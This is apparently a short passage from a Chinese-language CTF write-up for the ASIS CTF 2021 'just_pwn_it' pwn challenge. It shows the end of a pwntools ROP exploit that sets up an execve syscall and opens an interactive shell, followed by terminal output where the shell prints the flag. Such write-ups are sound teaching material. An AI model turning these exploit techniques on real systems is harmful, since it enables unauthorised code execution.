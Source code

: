 ```python
payload2 += p64(pop_rax_ret) + p64(0x3b)            # rax --syscall number
payload2 += p64(syscall)                            # syscall
p.sendline(payload2)

p.interactive()
```

拿flag；

```
klose@ubuntu:~/ctf/pwn/file/asisctf_2021/just_pwn_it$ python exploit.py 
[*] '/home/klose/ctf/pwn/file/asisctf_2021/just_pwn_it/justpwnit'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './justpwnit': pid 6555
[*] Switching to interactive mode
$ cat /flag
flag{K1os32J0yc34ever}
$  

```

